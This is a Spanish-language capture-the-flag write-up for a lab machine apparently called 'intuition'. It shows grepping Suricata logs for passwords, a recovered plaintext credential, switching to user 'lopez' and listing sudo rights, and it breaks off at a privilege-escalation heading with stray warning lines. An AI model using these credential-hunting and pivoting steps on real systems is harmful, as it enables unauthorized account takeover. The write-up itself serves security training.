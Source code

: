 ```shell
-rw-r--r--  1 root root      26145 Apr 29 18:27 suricata.log.1-2024072915.backup
-rw-r--r--  1 root root        990 Apr  1 14:50 suricata.log.5.gz
-rw-r--r--  1 root root       1412 Oct 19  2023 suricata.log.7.gz
-rw-r--r--  1 root root       5076 Oct  8  2023 suricata.log.8.gz
```

Con zgrep podemos filtrar por palabras que nos interesen como `user` y `pass`
`zgrep -i -w pass ./*.gz | less`

Y podemos detectar una supuesta credencial en el fichero `eve.json` -> `Lopezzz1992%123`
![Write-up Image](images/Screenshot_22.png)

También podemos ver que esa solicitud fue respondida con un `Authentication failed`

Un poco mas abajo vemos la supuesta contraseña válida.
![Write-up Image](images/Screenshot_23.png)

Existe un usuario `lopez` en el sistema, por lo cual podemos intentar pivotar a este usuario.
```shell
dev_acc@intuition:/var/log/suricata$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
adam:x:1002:1002:,,,:/home/adam:/bin/bash
dev_acc:x:1001:1001:,,,:/home/dev_acc:/bin/bash
lopez:x:1003:1003:,,,:/home/lopez:/bin/bash
```

¡Somos `lopez`!
```shell
dev_acc@intuition:/var/log/suricata$ su lopez
Password: 
lopez@intuition:/var/log/suricata$
```

Podemos ejecutar como cualquier usuario el binario `runner2`
```shell
lopez@intuition:/var/log/suricata$ sudo -l
[sudo] password for lopez: 
Matching Defaults entries for lopez on intuition:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User lopez may run the following commands on intuition:
    (ALL : ALL) /opt/runner2/runner2
```
# Local Privilege Escalation
## Ingeniería inversa al binario runner2

[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when
[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when